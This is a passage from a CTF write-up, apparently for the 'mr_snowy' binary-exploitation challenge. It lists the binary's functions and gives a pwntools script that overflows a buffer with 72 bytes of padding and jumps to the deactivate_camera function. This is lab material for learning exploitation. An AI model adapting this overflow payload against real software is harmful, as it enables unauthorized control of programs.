 ```
0x00000000004009b0  rand@plt
0x00000000004009c0  usleep@plt
0x00000000004009d0  _start
0x0000000000400a00  _dl_relocate_static_pie
0x0000000000400a10  deregister_tm_clones
0x0000000000400a40  register_tm_clones
0x0000000000400a80  __do_global_dtors_aux
0x0000000000400ab0  frame_dummy
0x0000000000400ab7  reset
0x0000000000400acf  rainbow
0x0000000000400d3b  color
0x00000000004010ed  printstr
0x0000000000401165  deactivate_camera
0x0000000000401278  banner
0x0000000000401374  investigate
0x000000000040146a  snowman
0x00000000004014f1  setup
0x000000000040153e  main
0x0000000000401560  __libc_csu_init
0x00000000004015d0  __libc_csu_fini
0x00000000004015d4  _fini
```

From the `info function` above, we know that the address of `deactivate_camera` function is `0x0000000000401165`.

## Exploit

Let's make a solver using python
```python
from pwn import *

offset = 72
deactivate_camera = 0x0000000000401165

elf = ELF("./mr_snowy")
s = elf.process()

payload = b"A"*offset
payload += p64(deactivate_camera)

print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())
print(s.recvline().decode())

s.close()
```
